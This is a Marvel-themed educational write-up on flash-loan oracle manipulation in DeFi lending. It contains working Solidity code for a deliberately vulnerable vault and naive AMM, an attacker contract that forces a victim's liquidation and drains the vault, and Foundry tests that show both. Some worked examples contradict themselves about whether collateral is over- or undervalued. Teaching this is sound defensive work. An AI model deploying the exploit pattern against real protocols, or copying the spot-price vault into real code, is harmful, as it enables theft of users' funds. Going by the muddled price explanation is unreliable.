

# Ant-Man and the Giant Loan - MCU Edition

## TL;DR

* **Vulnerability class:** Flash-loan oracle manipulation on a naive on-chain spot price (PymDEX spot).
* **Impact:** Attacker skews oracle price with a flash loan, enabling both:
    * **Scenario A:**  A successful **liquidation attack** and a **failed over-borrow** (slippage prevents repayment).
    * **Scenario B:** A minimal variant where a **small denomination change** makes the **over-borrow succeed**, draining the vault.
* **Severity:** Critical.
* **Fixes:** TWAP / trusted feeds, invariant checks, multi-source aggregation, borrow caps, circuit breakers.

---

Check out the live version of the website [live here](https://www.thesandf.xyz/posts/flash-loan-oracle-manipulation/).

## 🎬 Story Time

Ant-Man gets block-long liquidity from **QuantumRealmBank**. He dumps TokenA into **PymDEX**, which instantly shrinks/grows reserves and spikes TokenB price. **StarkVault**, which naively trusts `getPymPrice()`, believes collateral is now far more valuable.

Two outcomes unfold:

* In **Scenario A**, Ant-Man liquidates Wasp’s vault successfully. He then tries to over-borrow but **fails to repay the flash loan** because AMM slippage eats his margin.
* In **Scenario B**, by simply **borrowing TokenB instead of TokenA in the flash loan**, Ant-Man avoids slippage traps and achieves a full **over-borrow + drain**.

Both scenarios show how tiny assumptions in design decide whether an exploit is blocked-or catastrophic.

| Scenario | Flash-loan Token | Outcome                         |
|----------|-----------------|---------------------------------|
| A        | TokenA          | Liquidation succeeds, over-borrow fails |
| B        | TokenB          | Over-borrow succeeds, vault drained  |

> [!TIP]
> **Scenario B (TokenB flash loan) requires careful setup:**
> - The flash loan must be denominated in TokenB, not TokenA.
> - The exploit contract may need a small amount of TokenA or TokenB pre-minted to itself to cover approval gas or swap-back edge cases, depending on the test framework.
> - The vault and DEX must have sufficient liquidity for the over-borrow to succeed atomically.

In the test suite, this is achieved by:
```solidity
// Deploy flash loan bank for TokenB
QuantumRealmBank qrbB = new QuantumRealmBank(address(tokenB));
tokenB.mint(address(qrbB), 1_000_000 ether);
// Mint enough TokenB to the Vault to allow over-borrow
tokenB.mint(address(vault), 1_000_000 ether);
// Give exploit contract extra TokenA to repay swap-back
tokenA.mint(address(exploit), 500_000 ether);
```
This ensures the exploit contract can interact with the DEX and vault as needed, and the over-borrow scenario demonstrates a full vault drain.


---

::github{repo="thesandf/thesandf.xyz"}


## Attack Flow

**Actors**

* **AntManExploit** - attacker contract (Ant-Man).
* **QuantumRealmBank** - flash loan provider.
* **PymDEX** - naive AMM, spot oracle.
* **StarkVault** - vulnerable lending vault.
* **Wasp** - victim user with collateral.

**Steps**

1. Ant-Man takes flash loan (TokenA in Scenario A, TokenB in Scenario B).
2. He swaps aggressively on **PymDEX**, skewing spot price.
3. Calls **StarkVault** while price is manipulated:
    * **Liquidates Wasp** in Scenario A.
    * **Attempts over-borrow** (fails in A, succeeds in B).
4. Swaps back to repay flash loan.
5. Repays loan if possible → keeps profit.

---

## Example Values

* **Initial reserves:**
  PymDEX reserves:  
  - TokenA: 1,000  
  - TokenB: 1,000  

* **Scenario A (borrow TokenA flash loan):**
  * Borrow 500 TokenA → swap to TokenB.
  * Output ≈ 333 TokenB.
  * New reserves: 1,500A : 667B.
  * Price skew: 667 / 1500 ≈ 0.445 → vault thinks TokenA collateral is overvalued.
  * Liquidation succeeds, but **over-borrow fails** (slippage prevents repaying 500A).

* **Scenario B (borrow TokenB flash loan):**
  * Borrow 500 TokenB → swap to TokenA.
  * Output ≈ 333 TokenA.
  * New reserves: 667A : 1500B.
  * Price skew: 1500 / 667 ≈ 2.25.
  * Over-borrow succeeds → vault drained atomically.




## Minimal educational code 

>[!WARNING] 
Intentionally small/simplified for clarity - **do not** copy to production unchanged.

### `MockERC20.sol` (minimal ERC20 for tests)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/// @notice Minimal ERC20 for tests (mintable)
/// @dev For educational/demo use only. No access control, not production safe.
contract MockERC20 {
    string public name;
    string public symbol;
    uint8 public decimals = 18;
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    constructor(string memory _name, string memory _symbol) {
        name = _name;
        symbol = _symbol;
    }

    /// @notice Mint tokens to any address (no access control)
    function mint(address to, uint256 amount) external {
        balanceOf[to] += amount;
        totalSupply += amount;
    }

    /// @notice Approve spender for a given amount
    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    /// @notice Transfer tokens to another address
    function transfer(address to, uint256 amount) external returns (bool) {
        require(balanceOf[msg.sender] >= amount, "balance");
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    /// @notice Transfer tokens from one address to another (with allowance)
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        require(balanceOf[from] >= amount, "balance");
        uint256 allowed = allowance[from][msg.sender];
        require(allowed >= amount, "allowance");
        allowance[from][msg.sender] = allowed - amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        return true;
    }
}
```
---

### `QuantumRealmBank.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "./MockERC20.sol";

/// @notice Flash loan provider for one-block liquidity (used for exploit demonstration)
contract QuantumRealmBank {
    MockERC20 public token;

    constructor(address _token) {
        token = MockERC20(_token);
    }

    /// @notice Execute a flash loan (must be repaid in same tx)
    /// @dev Used to simulate one-transaction attacks in tests
    function flashLoan(uint256 amount, address borrower, bytes calldata data) external {
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore >= amount, "not enough liquidity");

        // Send loan to borrower
        require(token.transfer(borrower, amount), "transfer failed");

        // Call borrower contract (attack logic runs here)
        (bool success,) = borrower.call(data);
        require(success, "borrower call failed");

        // Require loan repayment
        uint256 balanceAfter = token.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "loan not repaid");
    }
}
```
---

### `PymDEX.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {MockERC20} from "./MockERC20.sol";

/// @notice Simplified AMM, used as a naive on-chain price oracle (unsafe)
/// @dev Price = reserveB / reserveA. Swaps use:
///      amountBOut = reserveB * amountAIn / (reserveA + amountAIn)
///      Large swaps cause slippage, reducing profit for manipulators.
contract PymDEX {
    MockERC20 public tokenA;
    MockERC20 public tokenB;
    uint256 public reserveA;
    uint256 public reserveB;

    constructor(address _a, address _b, uint256 a, uint256 b) {
        tokenA = MockERC20(_a);
        tokenB = MockERC20(_b);
        reserveA = a;
        reserveB = b;
    }

    /// @notice Get spot price (TokenA→TokenB) as reserveB / reserveA
    /// @dev Unsafe as an oracle: manipulable by large swaps
    function getPymPrice(address, address) external view returns (uint256) {
        if (reserveA == 0) return 0;
        return (reserveB * 1e18) / reserveA;
    }

    /// @notice Swap TokenA for TokenB (no fees, direct reserve update)
    /// @dev AMM math: amountBOut = reserveB * amountAIn / (reserveA + amountAIn)
    function swapExactAForB(uint256 amountAIn, address to) external {
        require(tokenA.transferFrom(msg.sender, address(this), amountAIn), "transferFrom A");
        // AMM output calculation (educational only)
        uint256 amountBOut = (reserveB * amountAIn) / (reserveA + amountAIn);
        reserveA += amountAIn;
        require(reserveB >= amountBOut, "insufficient reserveB");
        reserveB -= amountBOut;
        require(tokenB.transfer(to, amountBOut), "transfer B");
    }

    /// @notice Swap TokenB for TokenA
    /// @dev AMM math: amountAOut = reserveA * amountBIn / (reserveB + amountBIn)
    function swapExactBForA(uint256 amountBIn, address to) external {
        require(tokenB.transferFrom(msg.sender, address(this), amountBIn), "transferFrom B");
        // AMM output calculation (educational only)
        uint256 amountAOut = (reserveA * amountBIn) / (reserveB + amountBIn);
        reserveB += amountBIn;
        require(reserveA >= amountAOut, "insufficient reserveA");
        reserveA -= amountAOut;
        require(tokenA.transfer(to, amountAOut), "transfer A");
    }

    /// @notice Fund DEX with additional reserves (for tests/demo)
    function fund(uint256 a, uint256 b) external {
        reserveA += a;
        reserveB += b;
    }
}
```
>[!NOTE]
This is just a super-simple DEX, kind of like a baby version of Uniswap. It keeps two token reserves and updates the price instantly whenever someone swaps. The key thing: the price comes directly from the current reserves. That means if someone dumps a big bag of tokens in, the price shifts immediately and drastically. That’s exactly why it’s unsafe to use this “spot price” as an oracle. In real DeFi, you’d want something like a time-weighted average (TWAP) or an external feed (e.g., Chainlink).

---

### `StarkVault.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {MockERC20} from "./MockERC20.sol";

interface IPymPrice {
    function getPymPrice(address tokenA, address tokenB) external view returns (uint256);
}

/// @notice Vulnerable lending vault using naive PymDEX spot price
/// @dev Reads price from PymDEX every time. Vulnerable to flash-loan manipulation.
contract StarkVault {
    MockERC20 public collateral; // tokenA
    MockERC20 public borrowToken; // tokenB
    IPymPrice public pym;
    mapping(address => uint256) public collateralBalance;
    mapping(address => uint256) public debt;
    uint256 public constant LTV_PERCENT = 50;

    constructor(address _collateral, address _borrow, address _pym) {
        collateral = MockERC20(_collateral);
        borrowToken = MockERC20(_borrow);
        pym = IPymPrice(_pym);
    }

    /// @notice Deposit collateral (TokenA)
    function depositCollateral(uint256 amount) external {
        require(amount > 0, "zero");
        require(collateral.transferFrom(msg.sender, address(this), amount), "transferFrom");
        collateralBalance[msg.sender] += amount;
    }

    /// @notice Borrow TokenB against collateral, using spot price (vulnerable)
    /// @dev Uses PymDEX spot price, which can be manipulated in a flash loan
    function borrow(uint256 amount) external {
        require(amount > 0, "zero");
        uint256 price = pym.getPymPrice(address(collateral), address(borrowToken)); // spot price (vulnerable)
        uint256 collateralValue = (collateralBalance[msg.sender] * price) / 1e18;
        require(collateralValue * LTV_PERCENT / 100 >= debt[msg.sender] + amount, "undercollateralized");
        debt[msg.sender] += amount;
        require(borrowToken.transfer(msg.sender, amount), "transfer borrow");
    }

    /// @notice Liquidate undercollateralized user (using manipulated price)
    /// @dev Attacker can force liquidation by manipulating price in same tx
    function liquidate(address user) external {
        uint256 price = pym.getPymPrice(address(collateral), address(borrowToken));
        uint256 collateralValue = (collateralBalance[user] * price) / 1e18;
        require(collateralValue * LTV_PERCENT / 100 < debt[user], "not liquidatable");
        uint256 seized = collateralBalance[user];
        collateralBalance[user] = 0;
        require(collateral.transfer(msg.sender, seized), "transfer seized");
    }
}
```
>[!NOTE]
Think of this like a lending pool (similar to Compound or Aave), but with one big mistake: it asks PymDEX for the collateral price every time. If the price is artificially pumped for even one block, StarkVault believes collateral is worth way more than it really is. That lets an attacker either borrow too much or liquidate someone unfairly. This is the core vulnerability. The teaching point: never trust a single swap price - use safer oracles.

---

### `AntManExploit.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {PymDEX} from "./PymDEX.sol";
import {StarkVault} from "./StarkVault.sol";
import {MockERC20} from "./MockERC20.sol";

/// @title AntManExploit
/// @notice Demonstrates flash-loan + naive oracle manipulation attacks.
/// @dev Educational/demo code only. Not safe for production.
contract AntManExploit {
    PymDEX public pym;
    StarkVault public vault;
    MockERC20 public tokenA;
    MockERC20 public tokenB;
    address payable public owner;

    constructor(address _pym, address _vault, address _tokenA, address _tokenB, address payable _owner) {
        pym = PymDEX(_pym);
        vault = StarkVault(_vault);
        tokenA = MockERC20(_tokenA);
        tokenB = MockERC20(_tokenB);
        owner = _owner;
    }

    /// @notice Execute flash-loan exploit for a given scenario
    /// @param loanAmount Amount of token to borrow in flash-loan
    /// @param wasp Victim address
    /// @param scenario 0 = liquidation, 1 = over-borrow fail, 2 = over-borrow success
    function execute(uint256 loanAmount, address wasp, uint8 scenario) external {
        if (scenario == 0) _scenarioLiquidation(loanAmount, wasp);
        else if (scenario == 1) _scenarioOverBorrowFail(loanAmount, wasp);
        else if (scenario == 2) _scenarioOverBorrowSuccess(loanAmount, wasp);
        else revert("invalid scenario");
    }

    /// @dev Scenario 0: Successful liquidation using flash-loan
    function _scenarioLiquidation(uint256 loanAmount, address wasp) internal {
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
        vault.liquidate(wasp);
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 1: Over-borrow fails due to AMM slippage
    function _scenarioOverBorrowFail(uint256 loanAmount, address /*wasp*/ ) internal {
        // Swap TokenA → TokenB; slippage reduces collateral value, over-borrow fails to repay loan
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenA, loanAmount);
    }

    /// @dev Scenario 2: Over-borrow succeeds by using TokenB flash-loan
    function _scenarioOverBorrowSuccess(uint256 loanAmount, address /*wasp*/ ) internal {
        // Borrow TokenB instead of TokenA → avoids slippage trap, over-borrow succeeds
        tokenB.approve(address(pym), loanAmount);
        pym.swapExactBForA(loanAmount, address(this));
        _tryOverBorrow();
        _finalize(tokenB, loanAmount);
    }

    /// @dev Attempt over-borrow from vault using current collateral
    function _tryOverBorrow() internal {
        uint256 tokenAAfter = tokenA.balanceOf(address(this));
        if (tokenAAfter > 0) {
            tokenA.approve(address(vault), tokenAAfter);
            vault.depositCollateral(tokenAAfter);
            uint256 price = pym.getPymPrice(address(tokenA), address(tokenB));
            uint256 maxBorrow = (((tokenAAfter * price) / 1e18) * 50) / 100; // LTV 50%
            vault.borrow(maxBorrow);
        }
    }

    /// @dev Swap back tokens if needed and repay flash-loan
    function _finalize(MockERC20 loanToken, uint256 loanAmount) internal {
        if (address(loanToken) == address(tokenA)) {
            _swapBackAndRepay(tokenB, tokenA, loanAmount);
        } else if (address(loanToken) == address(tokenB)) {
            _swapBackAndRepay(tokenA, tokenB, loanAmount);
        }

        // Send remaining TokenB as profit to attacker
        uint256 profitB = tokenB.balanceOf(address(this));
        if (profitB > 0) {
            tokenB.transfer(owner, profitB);
        }
    }

    /// @dev Swaps enough tokens back to repay the flash-loan.
    /// @notice This function uses a binary search to find the minimum
    /// input amount needed to swap and generate enough output tokens
    /// to cover the flash-loan repayment. This optimizes the attacker's profit
    /// by minimizing slippage on the return swap.
    function _swapBackAndRepay(MockERC20 swapFrom, MockERC20 repayToken, uint256 loanAmount) internal {
        uint256 repayAmount = loanAmount;
        uint256 repayBalance = repayToken.balanceOf(address(this));

        if (repayBalance < repayAmount) {
            uint256 needed = repayAmount - repayBalance;
            uint256 swapBalance = swapFrom.balanceOf(address(this));

            uint256 left = 1;
            uint256 right = swapBalance;
            uint256 minSwap = right;
            bool enough = false;

            while (left <= right) {
                uint256 mid = (left + right) / 2;
                uint256 out;
                if (address(repayToken) == address(tokenA)) {
                    out = (pym.reserveA() * mid) / (pym.reserveB() + mid);
                } else {
                    out = (pym.reserveB() * mid) / (pym.reserveA() + mid);
                }

                if (out >= needed) {
                    minSwap = mid;
                    right = mid - 1;
                    enough = true;
                } else {
                    left = mid + 1;
                }
            }

            if (enough) {
                swapFrom.approve(address(pym), minSwap);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(minSwap, address(this));
                else pym.swapExactAForB(minSwap, address(this));
            } else if (swapBalance > 0) {
                swapFrom.approve(address(pym), swapBalance);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(swapBalance, address(this));
                else pym.swapExactAForB(swapBalance, address(this));
            }
        }

        // Transfer repayment
        uint256 repayFinal =
            repayToken.balanceOf(address(this)) < repayAmount ? repayToken.balanceOf(address(this)) : repayAmount;
        if (repayFinal > 0) {
            repayToken.transfer(msg.sender, repayFinal);
        }
    }
}
```

---
>[!NOTE]
This is the attacker’s script. It does three things in sequence:
1. Takes out a flash loan (Ant-Man grabbing liquidity from the Quantum Realm).
2. Uses it to manipulate the PymDEX price.
3. Calls StarkVault to borrow or liquidate while the price is skewed.

All of this happens inside one transaction, and at the end, the flash loan is repaid, leaving the attacker with profit. The main lesson: flash loans give attackers “infinite ammo” for one block, so every protocol has to design assuming this is possible.

---

## Foundry test: `PymFlashLoan.t.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";
import {MockERC20} from "../../src/Flash-Loan-Oracle-Manipulation/MockERC20.sol";
import {PymDEX} from "../../src/Flash-Loan-Oracle-Manipulation/PymDEX.sol";
import {StarkVault} from "../../src/Flash-Loan-Oracle-Manipulation/StarkVault.sol";
import {AntManExploit} from "../../src/Flash-Loan-Oracle-Manipulation/AntManExploit.sol";
import {QuantumRealmBank} from "../../src/Flash-Loan-Oracle-Manipulation/QuantumRealmBank.sol";

contract PymFlashLoan is Test {
    MockERC20 tokenA;
    MockERC20 tokenB;
    PymDEX pym;
    StarkVault vault;
    AntManExploit exploit;
    QuantumRealmBank qrbA;

    address wasp = makeAddr("Wasp");
    address attacker = makeAddr("Attacker");

    function setUp() public {
        // Deploy tokens
        tokenA = new MockERC20("TokenA", "A");
        tokenB = new MockERC20("TokenB", "B");

        // Deploy DEX
        pym = new PymDEX(address(tokenA), address(tokenB), 1_000_000 ether, 1_000_000 ether);
        tokenA.mint(address(pym), 1_000_000 ether);
        tokenB.mint(address(pym), 1_000_000 ether);

        // Deploy Vault
        vault = new StarkVault(address(tokenA), address(tokenB), address(pym));
        tokenB.mint(address(vault), 100_000 ether);

        // Deploy flash loan bank for TokenA
        qrbA = new QuantumRealmBank(address(tokenA));
        tokenA.mint(address(qrbA), 1_000_000 ether);

        // Setup victim
        tokenA.mint(wasp, 10_000 ether);
        vm.startPrank(wasp);
        tokenA.approve(address(vault), 10_000 ether);
        vault.depositCollateral(10_000 ether);
        vault.borrow(5_000 ether); // initial debt
        vm.stopPrank();

        // Deploy exploit contract
        exploit = new AntManExploit(address(pym), address(vault), address(tokenA), address(tokenB), payable(attacker));
    }

    // Scenario A: Liquidation succeeds
    function testScenarioA_LiquidationSuccess() public {
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 0);
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);

        // Wasp collateral should be seized
        assertEq(vault.collateralBalance(wasp), 0);
    }

    // Scenario A: Over-borrow fails due to AMM slippage
    function testScenarioA_OverBorrowFails() public {
        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 1);
        vm.expectRevert("loan not repaid");
        vm.prank(attacker);
        qrbA.flashLoan(500_000 ether, address(exploit), data);
    }

    // Scenario B: Over-borrow succeeds using TokenB flash loan
    function testScenarioB_OverBorrowSucceeds() public {
        // Deploy flash loan bank for TokenB
        QuantumRealmBank qrbB = new QuantumRealmBank(address(tokenB));
        tokenB.mint(address(qrbB), 1_000_000 ether);

        // Mint enough TokenB to the Vault to allow over-borrow
        tokenB.mint(address(vault), 1_000_000 ether);

        // Give exploit contract extra TokenA to repay swap-back
        tokenA.mint(address(exploit), 500_000 ether);

        bytes memory data = abi.encodeWithSelector(AntManExploit.execute.selector, 500_000 ether, wasp, 2);
        vm.prank(attacker);
        qrbB.flashLoan(500_000 ether, address(exploit), data);

        // Attacker should have profit in TokenB
        assertGt(tokenB.balanceOf(attacker), 0);
        console.log("Attacker TokenB profit:", tokenB.balanceOf(attacker));
    }
}
```

---

## Auditor’s checklist 

* [ ] Does any critical function depend on a mutable on-chain spot price (`getPymPrice()`)?
* [ ] Are price sources resistant to single-tx manipulation (TWAP / aggregated feeds)?
* [ ] Are there borrow/cap limits that make manipulation expensive?
* [ ] Are pre/post invariant checks performed around external calls?
* [ ] Do tests include large-swap / quantum-loan scenarios?
* [ ] Are monitoring & circuit breakers present for mass/fast withdrawals?

---

## Recommendations

* **Avoid relying on single-block spot prices**
  Never use the immediate AMM spot price for critical accounting (collateral valuation, borrowing limits, liquidation thresholds). Use **time-weighted average prices (TWAP)** or trusted **aggregated oracle feeds** (e.g., Chainlink).

* **Implement sanity checks and caps**
  Limit how much collateral can be deposited, borrowed, or liquidated in a single transaction or block. Prevent sudden, unrealistic jumps in vault accounting.

* **Multi-source aggregation**
  Combine prices from multiple sources or AMMs to reduce susceptibility to a single DEX manipulation.

* **Pre/post invariant checks**
  Verify vault balances, LTV ratios, and other critical invariants **before and after external calls** to detect anomalous states.

* **Circuit breakers**
  Add emergency pause mechanisms for vaults and DEX integrations to stop operations when extreme price deviations or large flash loans are detected.

* **Flash-loan aware design**
  Assume attackers can borrow unlimited funds for one transaction. Protocol logic must remain secure even if an attacker has enormous one-block liquidity.

---

##  References

* **Euler Finance flash-loan exploit (Mar 2023)** - high-impact example of the same vulnerability Ant-Man abused.
  🔗 [Chainalysis: Euler Finance Flash Loan Attack](https://www.chainalysis.com/blog/euler-finance-flash-loan-attack/)

* **Biggest Flash-Loan Attacks** - stats and write-ups that show how “Quantum Loans” keep wrecking protocols.
  🔗 [Koinly: Biggest Flash Loan Attacks](https://koinly.io/blog/biggest-flash-loan-attacks-stats/)

* **OWASP Smart Contract Top-10 (SC07: Flash Loan Attacks)** - best practices & mitigations (TWAPs, trusted oracles, invariant checks).
  🔗 [OWASP Foundation: Smart Contract Top-10 2025](https://owasp.org/www-project-smart-contract-top-10/2025/en/src/SC07-flash-loan-attacks.html)

* **Uniswap TWAP / Chainlink Feeds** - real-world examples of safer oracle designs Stark should’ve used.
  🔗 [Uniswap Docs: TWAP Oracles](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles)
  🔗 [Chainlink Docs: Price Feeds](https://docs.chain.link/data-feeds/price-feeds)

---


## Closing thought

Relying on a simple, on-chain spot price is like building a vault with a lock that can be picked in a split second. Flash-loans provide attackers with "infinite ammo" for a single transaction. Always assume this is possible and protect your protocol with robust oracles like a **Time-Weighted Average Price (TWAP)** or **Chainlink feeds**.

---

::github{repo="thesandf/thesandf.xyz"}

---

